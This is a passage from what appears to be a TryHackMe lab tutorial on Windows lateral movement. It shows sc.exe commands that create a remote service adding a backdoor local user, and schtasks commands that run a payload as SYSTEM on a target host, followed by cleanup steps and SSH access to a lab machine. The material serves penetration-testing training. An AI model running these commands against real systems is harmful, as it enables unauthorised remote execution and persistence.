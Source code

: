 2. If the latter connection fails, sc will try to reach SVCCTL through SMB named pipes, either on port 445 (SMB) or 139 (SMB over NetBIOS).

![task3-workflow2.png](./images/task3-workflow2.png.png)

We can create and start a service named "THMservice" using the following commands:

```
sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto
sc.exe \\TARGET start THMservice
```

The "net user" command will be executed when the service is started, creating a new local user on the system. Since the operating system is in charge of starting the service, you won't be able to look at the command output.

To stop and delete the service, we can then execute the following commands:

```
sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice
```

### Creating Scheduled Tasks Remotely

Another Windows feature we can use is Scheduled Tasks. You can create and run one remotely with schtasks, available in any Windows installation. To create a task named THMtask1, we can use the following commands:

```
schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 

schtasks /s TARGET /run /TN "THMtask1" 
```

We set the schedule type (/sc) to ONCE, which means the task is intended to be run only once at the specified time and date. Since we will be running the task manually, the starting date (/sd) and starting time (/st) won't matter much anyway.

Since the system will run the scheduled task, the command's output won't be available to us, making this a blind attack.

Finally, to delete the scheduled task, we can use the following command and clean up after ourselves:

```
schtasks /S TARGET /TN "THMtask1" /DELETE /F
```

### Let's Get to Work!

To complete this exercise, you will need to connect to THMJMP2 using the credentials assigned to you in Task 1 from http://distributor.za.tryhackme.com/creds. If you haven't done so yet, click on the link and get credentials now. Once you have your credentials, connect to THMJMP2 via SSH:

`ssh za\\<AD Username>@thmjmp2.za.tryhackme.com`
